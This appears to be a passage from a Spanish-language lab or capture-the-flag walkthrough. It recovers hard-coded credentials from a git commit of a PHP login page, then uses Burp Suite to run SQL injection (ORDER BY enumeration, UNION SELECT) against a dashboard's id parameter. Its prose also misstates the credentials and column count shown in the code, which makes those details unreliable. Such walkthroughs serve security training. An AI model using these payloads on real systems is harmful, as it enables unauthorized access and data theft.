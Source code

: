 para ver el contido del login.php se puede visualizar con el comando `git show` y el nombre de la cabecera.

```ruby
# git show a4d900a

commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

diff --git a/login.php b/login.php
index e69de29..8a0ff67 100644
--- a/login.php
+++ b/login.php
@@ -0,0 +1,42 @@
+<?php
+session_start();
+require 'config/config.php';
+if($_SERVER['REQUEST_METHOD'] == 'POST'){
+    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+        $_SESSION['userid'] = 1;
+        header("location:dashboard.php");
+        die();
+    }
+
+}
+?>
```
Se puede verificar que el nombre de usuario es `lush@admin` y la contraseña `123`, estas credenciales son ingresar por el archivo login.php, una vez ingresadas la credenciales redireccionará al la ruta `http://192.168.200.140/dashboard.php?id=1`


## Burpsuite

Con la herramienta bursuite se puede ejecutar pruebas de inyección sql, por lo que, interceptaremos la peticion get on id para hacer ls pruebas y se debe enviar al repeater


> ![alt text](https://i.postimg.cc/dtSXP3Pg/imagen.png)

```ruby
GET /dashboard.php?id=1'+order+by+100--+- HTTP/1.1
GET /dashboard.php?id=1'+order+by+6--+- HTTP/1.1
```
**Nota:** Se debe ejecutar varias pruebas hasta que el resultado sea el correcto, en este caso se puede evidenciar que se reducen las columnas de 100 hasta llegar el numero de columns que son 5, tene una respuesta dede estado 200 del servidor, acontinuaciones se puede usar la parametro unio selecto para unir las 6 columnas

```python
GET /dashboard.php?id=2'union+select+1,2,3,4,5,6--+- HTTP/1.1
Host: 192.168.200.140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l66cr5745rherg4u1aafmqlaeh
Connection: close
```